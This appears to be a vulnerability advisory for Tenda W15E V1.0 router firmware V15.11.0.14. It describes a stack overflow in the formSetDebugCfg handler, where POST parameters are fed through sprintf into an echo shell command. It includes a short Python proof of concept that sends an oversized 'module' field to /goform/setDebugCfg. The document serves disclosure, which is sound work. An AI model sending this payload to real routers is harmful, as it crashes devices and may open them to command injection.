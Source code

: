 ## Overview

- Firmware download website: https://www.tendacn.com/download/detail-2722.html

## Affected version

W15EV1.0 V15.11.0.14

## Vulnerability details

The Tenda W15EV1.0 V15.11.0.14 firmware has a stack overflow vulnerability in the `formSetDebugCfg` function. The `pEnable, pLevel, pModule` variable receives the `enable, level, module  ` parameter from a POST request. However, since the user can control the input of `enable, level, module`, the statement

```c
sprintf(
    (char *)cmd,
    "echo enable=%s level=%s > /var/debug/%s",
    (const char *)pEnable,
    (const char *)pLevel,
    (const char *)pModule);
```

can cause a buffer overflow. The user-provided  `enable, level, module` can exceed the capacity of the `cmd` array, triggering this security vulnerability.

![image-20240417093917502](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240417093917502.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/setDebugCfg"
payload = b"a"*2000

data = {
        'module':payload,
    }
response = requests.post(url, data=data)
print(response.text)
```

![image-20240416114043980](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240416114043980.png)
